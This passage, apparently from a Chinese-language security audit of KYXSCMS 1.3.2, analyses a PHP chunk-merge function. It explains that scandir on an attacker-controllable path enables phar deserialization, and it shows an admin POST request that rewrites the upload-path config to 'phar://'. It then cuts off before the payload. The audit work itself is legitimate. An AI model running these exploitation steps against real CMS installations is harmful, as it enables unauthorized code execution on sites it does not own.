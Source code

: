 上一个phar是进入`status == chunkCheck`的，这次的是进入`chunksMerge`：

```php
    protected function chunksMerge($name, $chunks, $ext, $md5){
        $upload_path = config('web.upload_path');
        $targetDir = $upload_path.$this->request->param('path').'/'.$name;
        //检查对应文件夹中的分块文件数量是否和总数保持一致
        if($chunks >= 1 && (count(scandir($targetDir)) - 2) == $chunks){
```

看到一个`scandir`函数，可以`phar`反序列化。看一下`$targetDir`是否可控。`$upload_path`可以来自数据库中，可控。剩余分部分来自post或者get传参，也都可控，因此可以phar反序列化。



攻击：

```php
POST /admin/tool/sqlexecute.html
    
sql=update {pre}config set value  = 'phar://' where id = 88
```

然后清缓存：

![pic13](KYXSCMS1.3.2审计与测试.assets/pic13-16398019872731.png)

然后phar开打：
